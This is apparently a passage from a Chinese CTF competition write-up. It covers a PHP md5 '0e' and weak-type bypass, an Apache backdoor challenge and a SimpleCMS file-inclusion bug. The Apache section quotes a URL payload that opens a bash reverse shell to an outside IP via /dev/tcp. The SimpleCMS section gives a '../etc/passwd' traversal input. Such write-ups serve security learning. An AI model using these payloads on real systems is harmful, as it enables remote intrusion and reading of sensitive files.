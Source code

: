 源码泄漏：

```php
 $test=$_GET['userid']; $test=md5($test); 
   if($test != '0'){ 
      	$this->error('用户名有误,请阅读说明与帮助！'); 
   	}
$pwd =$this->_post("password");
$data_u = unserialize($pwd);
if($data_u['name'] == 'XX' && $data_u['pwd']=='XX')
    {
      print_r($flag);
    }
```

前者是md5成0e开头的字符串即可。后者利用布尔弱类型绕过。参考：http://www.cnblogs.com/ssooking/p/5877086.html

![5](https://mo-xiaoxi.github.io/img/post/EIS/5.png)

## Apache

Hacklu原题，队内大佬carry。

> 通过__libc_start_main劫持strlen函数来安装后门，满足条件的payload可以被system执行，最后首先发送一个正常的get请求，再发送/index.html?eqeqeqbnbnbnbnbkwkwkwkwhththththqeq=bash_-c_'bash_-i_>&_/dev/tcp/202.112.50.114/5555_0>&1'获得一个reverse shell,直接cat flag.txt即可。

URL 中需有 'dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp' or 'eqeqeqbnbnbnbnbkwkwkwkwhththththqeq'，后⾯面跟命令即可，其中下划线会被替换为空格。

## SimpleCMS

这题比赛的时候没做出来，应该是缓存的问题。以前没研究过，不是很懂。

信息：

1. 两个文件包含点：

   - ?page=../../../../../../../../etc/passwd 

     ```php
     <?php
         if (isset($_GET['page'])) {
             $page = $_GET['page'];
         } else {
             $page = 'a.php';
         }

         $path = './pages/' . $page;
         $path = realpath($path);

         if (is_file($path)) {
             include $path;
         } else {
             echo '<p>Page not found!</p>';
         }
     ```
